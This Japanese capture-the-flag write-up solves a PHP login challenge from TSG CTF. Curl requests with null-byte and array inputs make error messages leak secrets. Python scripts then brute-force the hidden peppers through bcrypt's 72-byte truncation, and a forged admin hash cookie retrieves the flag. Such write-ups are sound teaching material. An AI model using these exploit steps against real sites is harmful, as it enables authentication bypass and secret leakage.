

# I Have Been Pwned:web:189pts
We have detected a password compromise and are shutting down the login process.  
But don't worry. We have a secret pepper.  

[http://34.84.32.212:8080](http://34.84.32.212:8080)  

[i_have_been_pwned.tar.gz](i_have_been_pwned.tar.gz)  

# Solution
URLとソースコードが渡される。  
アクセスすると謎のログインフォームのようだ。  
  
配布されたソースを見るとindex.phpは以下の通りであった。  
```php
<?php
$pepper1 = "____REDACTED____";
$pepper2 = "____REDACTED____";
assert(strlen($pepper1) === 16 && strlen($pepper2) === 16);
$admin_password = "__REDACTED_____";
assert(strlen($admin_password) === 15);

$msg = "";
if (isset($_POST["auth"]) and isset($_POST["password"])) {
    $success = false;
    if ($_POST["auth"] === "guest") {
        $success = true;
    } else if(($_POST["auth"] === "admin") and hash_equals($admin_password, $_POST["password"])) {
        // $success = true;
        $msg = "Sorry, the admin account is currently restricted from new logins. Please use a device that is already logged in.";
    } else {
        $msg = "Invalid username or password.";
    }

    if ($success) {
        $hash = password_hash($pepper1 . $_POST["auth"] . $_POST["password"] . $pepper2, PASSWORD_BCRYPT);
        setcookie("auth", $_POST["auth"], time() + 3600*24);
        setcookie("hash", base64_encode($hash), time() + 3600*24);
        header("Location: mypage.php");
    }
}
?>

<!DOCTYPE html>
<html>
    <head>

    </head>
    <body>
        <form action="index.php" method="POST">
            Username: <input type="text" name="auth" required value="guest" />
            Password: <input type="password" name="password" required />
            <input type="submit" value="Login" />
        </form>
        <div style="color: red">
            <?= $msg ?>
        </div>
	</body>
</html>
```
謎の固定値`$pepper1`、`$pepper2`でユーザ名(`auth`)とパスワード(`password`)を挟み込んで、`password_hash`している。  
また、`guest`としてログインできるが、`admin`としてのログイン機能は潰されている。  
次にログイン後のmypage.phpのソースを見ると以下の通りであった。  
```php
<?php
$pepper1 = "____REDACTED____";
$pepper2 = "____REDACTED____";
assert(strlen($pepper1) === 16 && strlen($pepper2) === 16);
$admin_password = "__REDACTED_____";
assert(strlen($admin_password) === 15);

$flag = "TSGCTF{__REDACTED__}";


if (isset($_COOKIE["auth"])) {
    $auth = $_COOKIE["auth"];
    if ($auth === "admin") {
        if (password_verify($pepper1 . $auth . $admin_password . $pepper2, base64_decode($_COOKIE["hash"]))) {
            $msg = "Hello admin! Flag is " . $flag . "\n";
        } else {
            $msg = "I know you rewrote cookies!";
        }
    } else if ($auth === "guest") {
        $msg = "Hello guest! Only admin can get flag.";
    } else {
        $msg = "Hello stranger! Only admin can get flag.";
    }
} else {
    header("Location: index.php");
}
?>
<!DOCTYPE html>
<html>

<head>

</head>

<body>
    <?php echo $msg; ?>
</body>

</html>
```
`admin`であればフラグをくれるようだ。  
まとめると、`guest`でしかログインできない(パスワードハッシュは入手できる)が、うまく`admin`としてverifyされるパスワードハッシュを作れということらしい。  
チームメンバが`バイナリセーフだっけ？`と言っていたため、以下のように試す。  
```bash
$ curl -X POST http://34.84.32.212:8080/ -d "auth=guest&password=%00"
<br />
<b>Fatal error</b>:  Uncaught ValueError: Bcrypt password must not contain null character in /var/www/html/index.php:21
Stack trace:
#0 /var/www/html/index.php(21): password_hash('PmVG7xe9ECBSgLU...', '2y')
#1 {main}
  thrown in <b>/var/www/html/index.php</b> on line <b>21</b><br />
```
`password_hash`のエラーより`$pepper1`の先頭から15文字が漏洩している(`PmVG7xe9ECBSgLU`)。  
さらにエラーを使うのではないかと考え、`password`を配列にしてみる。  
```bash
$ curl -X POST http://34.84.32.212:8080/ -d "auth=admin&password[]=admin"
<br />
<b>Fatal error</b>:  Uncaught TypeError: hash_equals(): Argument #2 ($user_string) must be of type string, array given in /var/www/html/index.php:13
Stack trace:
#0 /var/www/html/index.php(13): hash_equals('KeTzkrRuESlhd1V', Array)
#1 {main}
  thrown in <b>/var/www/html/index.php</b> on line <b>13</b><br />
```
`hash_equals`のエラーにより、`$admin_password`の16文字すべてが漏洩している(`KeTzkrRuESlhd1V`)。  
残るは`$pepper1`の末尾1文字と`$pepper2`の16文字であることが`assert`からわかる。  
ここで`password_hash`でアルゴリズム`PASSWORD_BCRYPT`が指定されていることに気づく。  
`PASSWORD_BCRYPT`は最大72バイトに切り詰められるとマニュアルにも[警告がある](https://www.php.net/manual/ja/function.password-hash.php)。  
つまり`password`を51文字にすると`$pepper1`とユーザ名`guest`の文字数を含めちょうど72文字になるため、後半の`$pepper2`は消えることとなる。  
あとはローカルでverifyするかを検証すれば`$pepper1`の残りの一文字を特定できる。  
以下のpepper1.pyで行う。  
```py
import base64
import bcrypt
import string
import requests

URL = "http://34.84.32.212:8080"
pepper1_15 = "PmVG7xe9ECBSgLU"


response = requests.post(
    URL, data={"auth": "guest", "password": "A" * 51}, allow_redirects=False
)
hash = base64.b64decode(response.cookies["hash"])

if hash.startswith(b"$2y$"):
    hash = b"$2b$" + hash[4:]

for i in string.printable:
    if bcrypt.checkpw(f"{pepper1_15}{i}guest{'A' * 51}".encode(), hash):
        print(f"FOUND: {pepper1_15}{i}")
        break
```
実行する。  
```bash
$ python pepper1.py
FOUND: PmVG7xe9ECBSgLUA
```
`$pepper1`が`PmVG7xe9ECBSgLUA`とわかった。  
さらに先ほどのテクニックを応用し、`guest`のパスワードを52文字から1文字ずつ減らして得られたパスワードハッシュをローカルで総当たりすることをひらめく。  
例えばパスワードを50文字にすると`$pepper2`の先頭1文字が残り、それより後ろは切り詰められる。  
以下のようにpepper2.pyで行う。  
```py
import base64
import bcrypt
import string
import requests

URL = "http://34.84.32.212:8080"
pepper1 = "PmVG7xe9ECBSgLUA"

pepper2 = ""
for i in range(16):
    response = requests.post(
        URL,
        data={"auth": "guest", "password": "A" * (51 - (i + 1))},
        allow_redirects=False,
    )
    hash = base64.b64decode(response.cookies["hash"])

    if hash.startswith(b"$2y$"):
        hash = b"$2b$" + hash[4:]

    for j in string.printable:
        if bcrypt.checkpw(
            f"{pepper1}guest{'A' * (51 - (i + 1)) + pepper2 + j}".encode(), hash
        ):
            print(f"FOUND: {pepper2 + j}")
            pepper2 += j
            break
```
実行する。  
```bash
$ python pepper2.py
FOUND: 8
FOUND: 8o
FOUND: 8oC
FOUND: 8oC7
FOUND: 8oC7m
FOUND: 8oC7mI
FOUND: 8oC7mIi
FOUND: 8oC7mIiD
FOUND: 8oC7mIiDF
FOUND: 8oC7mIiDFw
FOUND: 8oC7mIiDFw4
FOUND: 8oC7mIiDFw4h
FOUND: 8oC7mIiDFw4hQ
FOUND: 8oC7mIiDFw4hQv
FOUND: 8oC7mIiDFw4hQv2
FOUND: 8oC7mIiDFw4hQv2e
```
これで`$pepper1`、`$admin_password`、`$pepper2`がすべて入手できた。  
あとは`PmVG7xe9ECBSgLUA`、`admin`、`KeTzkrRuESlhd1V`、`8oC7mIiDFw4hQv2e`を連結し、ローカルで指定されたアルゴリズムでパスワードハッシュ化してサーバに投げてやればよい。  
以下のように行う。  
```bash
$ php -r "echo password_hash('PmVG7xe9ECBSgLUAadminKeTzkrRuESlhd1V8oC7mIiDFw4hQv2e', PASSWORD_BCRYPT);" | base64 -w 0
JDJ5JDEwJHBqTkl6SDg4Qm85VG1kd1NiZ3VqQWVJT0tGVm15U05XUDRqNVRXUkpPN3BEaHBnaTFyTFp1
$ curl http://34.84.32.212:8080/mypage.php -H "Cookie: auth=admin; hash=JDJ5JDEwJHBqTkl6SDg4Qm85VG1kd1NiZ3VqQWVJT0tGVm15U05XUDRqNVRXUkpPN3BEaHBnaTFyTFp1"
<!DOCTYPE html>
<html>

<head>

</head>

<body>
    Hello admin! Flag is TSGCTF{Pepper. The ultimate layer of security for your meals.}
</body>

</html>
```
flagが得られた。  

## TSGCTF{Pepper. The ultimate layer of security for your meals.}